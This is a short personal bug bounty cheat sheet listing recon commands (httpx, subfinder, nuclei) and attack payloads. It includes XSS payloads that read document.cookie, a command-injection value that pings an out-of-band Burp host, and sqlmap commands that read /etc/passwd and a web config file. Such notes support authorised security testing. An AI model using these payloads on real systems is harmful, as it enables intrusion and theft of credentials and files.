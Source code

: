 # Bug Bounty Personal Tips

## Recon 

## HTTPX 

`/home/kali/go/bin/httpx -l FC -ss -srd /media/sf_Test/FC/screenshots/ --title --status-code -o /media/sf_Test/FC_httpx.txt `

`/home/kali/go/bin/httpx -l FC -proxy http://192.168.0.131:1337 `

## XSS
```  : /"><script>alert(document.cookie)</script> ```

``` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E ```

## SSRF 
``` galletita ; ping -c 1 burp.oastify.com ```

## SQLMAP
```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/etc/passwd"
```

```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/var/www/html/config.php"
```

### OTHERS
``` assetfinder X.com | tee -a /tmp/X.txt```

``` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt ```

```  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337```

``` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 ```

``` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" ```

